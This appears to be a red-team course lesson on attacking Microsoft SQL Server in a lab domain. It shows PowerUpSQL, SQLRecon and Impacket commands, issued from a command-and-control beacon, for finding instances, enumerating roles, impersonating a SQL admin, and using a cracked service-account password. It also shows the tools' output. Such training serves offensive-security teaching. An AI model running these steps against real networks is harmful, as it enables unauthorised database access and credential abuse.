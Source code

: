 Microsoft SQL Server is a relational database management system commonly found in Windows environments. They’re typically used to store information to support a myriad of business functions. In addition to the obvious data theft opportunities, they also have a large attack surface, allowing code execution, privilege escalation, lateral movement and persistence.

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) and [SQLRecon](https://github.com/skahwah/SQLRecon) are excellent tools for enumerating and interacting with MS SQL Servers.

PowerUpSQL has a few cmdlets available for finding MS SQL Servers, including `Get-SQLInstanceDomain`, `Get-SQLInstanceBroadcast` and `Get-SQLInstanceScanUDP`.
```
beacon> powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
beacon> powershell Get-SQLInstanceDomain

ComputerName     : sql-2.dev.cyberbotic.io
Instance         : sql-2.dev.cyberbotic.io,1433
DomainAccountSid : 1500000521000672332383313895871914512914091400
DomainAccount    : mssql_svc
DomainAccountCn  : MS SQL Service
Service          : MSSQLSvc
Spn              : MSSQLSvc/sql-2.dev.cyberbotic.io:1433
LastLogon        : 8/15/2022 7:55 PM
Description      :
```
  

`Get-SQLInstanceDomain` works by searching for SPNs that begin with _MSSQL*_.  This output shows that SQL-2 is running an instance of MS SQL server, under the context of the `mssql_svc` domain account.  You may also search the domain for groups that sound like they may have access to database instances (for example, a "SQL Admins" group).

`Get-SQLConnectionTest` can be used to test whether or not we can connect to the database.
```
beacon> powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl

ComputerName : sql-2.dev.cyberbotic.io
Instance     : sql-2.dev.cyberbotic.io,1433
Status       : Accessible
```
  

Then use `Get-SQLServerInfo` to gather more information about the instance.
```
beacon> powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"

ComputerName           : sql-2.dev.cyberbotic.io
Instance               : SQL-2
DomainName             : DEV
ServiceProcessID       : 2668
ServiceName            : MSSQLSERVER
ServiceAccount         : DEV\mssql_svc
AuthenticationMode     : Windows Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 15.0.2000.5
SQLServerMajorVersion  : 2019
SQLServerEdition       : Standard Edition (64-bit)
SQLServerServicePack   : RTM
OSArchitecture         : X64
OsVersionNumber        : SQL
Currentlogin           : DEV\bfarmer
IsSysadmin             : No
ActiveSessions         : 1
```
  

  If there are multiple SQL Servers available, you can chain these commands together to automate the data collection.  
  
```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```
  

This output shows that whilst the database is accessible, our current user, bfarmer, is not a sysadmin.  SQLRecon has a nice module which can show us what roles we do have.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe -a windows -s sql-2.dev.cyberbotic.io,1433 -m whoami

[+] Logged in as: 
DEV\bfarmer

[+] Mapped to the user: 
guest

[+] Roles: 
User is a member of public role
User is NOT a member of db_owner role
User is NOT a member of db_accessadmin role
User is NOT a member of db_securityadmin role
User is NOT a member of db_ddladmin role
User is NOT a member of db_backupoperator role
User is NOT a member of db_datareader role
User is NOT a member of db_datawriter role
User is NOT a member of db_denydatareader role
User is NOT a member of db_denydatawriter role
User is NOT a member of sysadmin role
User is NOT a member of setupadmin role
User is NOT a member of serveradmin role
User is NOT a member of securityadmin role
User is NOT a member of processadmin role
User is NOT a member of diskadmin role
User is NOT a member of dbcreator role
User is NOT a member of bulkadmin role
```
  

On default installations, standard users do not have this "public" role by default and must be explicitly granted through [SQL Server Manager Studio](https://learn.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms) (SSMS).  The aforementioned information on a SQL instance cannot be enumerated if the user's security context does not have a valid role.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/3ff/4cb/2fa/roles.png)

  

Finding a user (or group) that does have access can be challenging, because without the ability to query the SQL instance to ask it, you can be stuck guessing.  One port of call is to look for appropriately names domain groups and their members.
```
beacon> powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }

GroupName     MemberName
---------     ----------
MS SQL Admins jking
```
  

"MS SQL Admins" clearly implies that jking may be a sysadmin.  Impersonating the user confirms the hypothesis.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe -a windows -s sql-2.dev.cyberbotic.io,1433 -m whoami

[+] Logged in as: 
DEV\jking

[+] Mapped to the user: 
dbo

[+] Roles: 
User is a member of public role
User is a member of sysadmin role
User is a member of setupadmin role
User is a member of serveradmin role
User is a member of securityadmin role
User is a member of processadmin role
User is a member of diskadmin role
User is a member of dbcreator role
User is a member of bulkadmin role
```
  

Another option is to go after the MS SQL service account itself as this is also often given sysadmin privileges.  This assumption is the basis of BloodHound's SQLAdmin attack path.  We know that the domain account being used to run the service is `DEV\mssql_svc` and that the account is kerberoastable owing to its SPN.

If we can crack its plaintext password, we can use it to gain access to the SQL instance.
```
beacon> make_token DEV\mssql_svc Cyberb0tic
[+] Impersonated DEV\bfarmer

beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe -a windows -s sql-2.dev.cyberbotic.io,1433 -m whoami

[+] Logged in as: 
DEV\mssql_svc

[+] Mapped to the user: 
dbo

[+] Roles: 
User is a member of public role
User is a member of sysadmin role
User is a member of setupadmin role
User is a member of serveradmin role
User is a member of securityadmin role
User is a member of processadmin role
User is a member of diskadmin role
User is a member of dbcreator role
User is a member of bulkadmin role
```
  

Once we have access, there are several options for issuing queries against a SQL instance.  `Get-SQLQuery` from PowerUpSQL:
```
beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"

Column1
-------
SQL-2

  

SQLRecon:

beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe -a windows -s sql-2.dev.cyberbotic.io,1433 -m query -o "select @@servername"

[+] Executing: select @@servername on sql-2.dev.cyberbotic.io,1433:

column0 | 
----------
SQL-2 |
```
  

`mssqlclient.py` from Impacket via proxychains:
```
ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.25:1433-<><>-OK
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL-2): Line 1: Changed database context to 'master'.
[*] INFO(SQL-2): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands

SQL> select @@servername;

--------------------------------------------------------------------------------------------------------------------------------

SQL-2
```
  

Or a Windows SQL GUI, such as [HeidiSQL](https://www.heidisql.com/) [](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms)via Proxifier:

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/574/967/edc/heidi.png)